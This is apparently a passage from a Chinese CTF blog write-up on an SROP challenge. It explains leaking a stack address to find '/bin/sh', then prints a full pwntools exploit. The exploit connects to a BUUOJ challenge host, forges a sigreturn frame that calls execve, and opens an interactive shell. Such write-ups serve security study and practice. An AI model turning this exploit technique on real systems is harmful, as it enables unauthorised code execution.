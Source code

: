 然后我们计算bin/sh的地址，write函数在打印时，打印了0x30的内容，但var却只有0x10，因此会将其它地址打印出来，只要打印出栈地址，算出该地址的偏移和/bin/sh的相对偏移，就可以知道bin/sh的地址了。

当前栈地址为rsp 0x7fffffffdea0，因此bin/sh的地址为rsp-0x10=0x7fffffffde90，打印0x20的内容后，会打印0x7fffffffdeb0（rsp+0x10）的内容：0x00007fffffffdfa8

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/SROP/s14.png?x-oss-process=style/watermark)

打印出来的栈地址为0x00007fffffffdfa8，即偏移为：0x00007fffffffdfa8-0x7fffffffde90 = 0x118
计算bin/sh地址：binsh_addr=u64(p.recv(8))-0x118 #接收地址，计算偏移

完整exp:

```python
from pwn import *
p=remote('node4.buuoj.cn',29247)
sigreturn_addr = 0x4004DA
syscall_addr = 0x400517
vuln_addr=0x4004f1
payload = '/bin/sh\x00'.ljust(16,'a')
payload+=p64(vuln_addr)
p.sendline(payload)
p.recv(0x20)
binsh_addr=u64(p.recv(8))-0x118
frameExecve=SigreturnFrame()
frameExecve.rax =constants.SYS_execve
frameExecve.rdi =binsh_addr
frameExecve.rsi =0
frameExecve.rdx =0
frameExecve.rip =syscall_addr
payload ='a'*16
payload+=p64(sigreturn_addr)+p64(syscall_addr)+str(frameExecve)
p.sendline(payload)
p.interactive()
```

成功获取flag：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/SROP/s15.png?x-oss-process=style/watermark)

